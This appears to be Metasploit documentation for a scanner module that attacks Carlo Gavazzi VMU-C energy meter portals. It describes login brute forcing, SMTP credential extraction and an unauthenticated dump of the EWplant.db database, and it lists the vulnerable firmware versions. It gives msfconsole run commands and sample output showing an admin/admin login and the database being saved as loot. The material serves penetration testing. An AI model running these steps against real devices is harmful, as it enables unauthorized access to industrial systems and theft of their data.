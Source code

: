 This module scans for Carlo Gavazzi Energy Meters login portals, performs a login brute force attack, enumerates device firmware version, and attempt to extract the SMTP configuration. A valid, admin privileged user is required to extract the SMTP password. In some older firmware versions, the SMTP config can be retrieved without any authentication.

The module also exploits an access control vulnerability which allows an unauthenticated user to remotely dump the database file EWplant.db . This db file contains information such as power/energy utilization data, tariffs, and revenue statistics.

Vulnerable firmware versions include:

VMU-C EM prior to firmware Version A11_U05
VMU-C PV prior to firmware Version A17.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/gavazzi_em_login_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/gavazzi_em_login_loot
msf auxiliary(gavazzi_em_login_loot) > set rhosts 1.3.3.7
msf auxiliary(gavazzi_em_login_loot) > set rport 80
msf auxiliary(gavazzi_em_login_loot) > run

[+] 1.3.3.7:80 - [1/1] - Running Carlo Gavazzi VMU-C Web Management portal...
[*] 1.3.3.7:80 - [1/1] - Trying username:"admin" with password:"admin"
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "admin":"admin"
[+] 1.3.3.7:80 - Firmware version A8_U03...
[+] 1.3.3.7:80 - SMTP server: "", SMTP username: "", SMTP password: ""
[*] 1.3.3.7 - dumping EWplant.db
[+] 1.3.3.7:80 - EWplant.db retrieved successfully!
[+] 1.3.3.7:80 - File saved in: /root/.msf4/loot/20000000000005_moduletest_1.3.3.7_EWplant.db_501578.bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
